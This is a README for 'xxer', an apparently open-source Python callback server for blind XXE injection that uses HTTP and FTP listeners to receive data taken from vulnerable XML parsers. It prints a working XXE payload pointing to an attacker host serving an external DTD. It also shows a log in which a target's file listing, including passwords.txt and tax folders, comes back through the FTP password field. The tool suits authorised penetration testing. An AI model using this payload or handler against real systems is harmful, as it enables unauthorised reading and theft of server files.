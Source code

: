 # xxer
A blind XXE injection callback handler. Uses HTTP and FTP to extract information. Originally written in Ruby by [ONsec-Lab](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb). Rewritten here because I don't like Ruby.

## Target Audience
If you can explain what XXE injection is and how to find it, this is for you. If not, check out [vulnd_xxe](https://github.com/TheTwitchy/vulnd_xxe).

## Examples

### Options
```
root@kali:~$ xxer.py -h
usage: xxer [-h] [-v] [-q] [-p HTTP] [-P FTP] -H HOSTNAME

XXE Injection Handler

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -q, --quiet           surpress extra output
  -p HTTP, --http HTTP  HTTP server port
  -P FTP, --ftp FTP     FTP server port
  -H HOSTNAME, --hostname HOSTNAME
                        Hostname of this server

Originally from https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-
server.rb, rewritten in Python by TheTwitchy
```

### Basic Usage
```
root@kali:~$ xxer.py -H 
                 
 _ _ _ _ ___ ___ 
|_'_|_'_| -_|  _|
|_,_|_,_|___|_|  
                 
version 1.0

info: Starting xxer_httpd on port 8080
info: Starting xxer_ftpd on port 2121
info: Servers started. Use the following payload (with URL-encoding):

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE xmlrootname [<!ENTITY % aaa SYSTEM "http://kali.host.com:8080/ext.dtd">%aaa;%ccc;%ddd;]>


127.0.0.1 - - [23/Apr/2017 20:59:04] "GET /ext.dtd HTTP/1.1" 200 -
info: FTP: recvd 'USER fakeuser'
info: FTP: recvd 'PASS aaaaaaaaaadescriptivefoldername
IRS_LETTERS_2014_ANGRY
passwords.txt
pictures_of_ex_hi_def
pictures_of_ex_ultra_hi_def
szechuan_sauce_recipe.pgp
TAXES2012
Taxes2013
TAXES2015
Temporary Internet Files
'
info: FTP: recvd 'TYPE I'
info: FTP: recvd 'EPSV ALL'
info: FTP: recvd 'EPSV'
info: FTP: recvd 'RETR b'
```

## "Features"
  * Only has one exfiltration point (currently, the FTP password). Obviously this can be changed up as needed, but may require some basic code changes (specifically in the FTP handlers).
  * Install via ``pip``. Needs at least a requirements.txt or a setup.py. For now just clone and run.
  * Currently serves up everything in the folder in which it was run over HTTP. Probably not a huge security risk, but something you should be aware of, espeially on a public server.
  * Integrated server file/directory browsing as a future upgrade?
